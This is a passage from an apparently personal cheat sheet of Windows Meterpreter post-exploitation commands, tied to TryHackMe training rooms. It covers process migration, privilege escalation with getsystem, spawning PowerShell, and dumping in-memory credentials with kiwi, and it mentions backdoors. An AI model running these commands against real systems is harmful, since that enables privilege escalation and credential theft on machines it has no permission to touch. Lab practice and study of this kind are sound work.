 ```bash
meterpreter > ps # list process
meterpreter > migrate process_pid # move to another process
meterpreter > migrate -N process_name # same
# most used ones
meterpreter > migrate -N spoolsv.exe # can restart so good
meterpreter > migrate -N explorer.exe # screenshots...
```
</div></div>

<hr class="sep-both">

## Notes for Windows meterpreter

[![blue](../../../_badges/thm-p/blue.svg)](https://tryhackme.com/room/blue)
[![ice](../../../_badges/thm-p/ice.svg)](https://tryhackme.com/room/ice)
[![blaster](../../../_badges/thm-p/blaster.svg)](https://tryhackme.com/room/blaster)
[![steelmountain](../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ See your privileges

```bash
meterpreter > getprivs
```

* ➡️ Try automatic privilege escalation 😎 ([more information](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)).

```bash
meterpreter > getsystem
```

* ➡️ Load powershell

```bash
meterpreter > load powershell
meterpreter > powershell_shell
PS>
```
</div><div>

* ➡️ Dump in-memory passwords

```bash
meterpreter > load kiwi
meterpreter > migrate some_process_nt_system_compatible
meterpreter > creds_all # retrieve all credentials
meterpreter > # you can also create a backdoor...
```
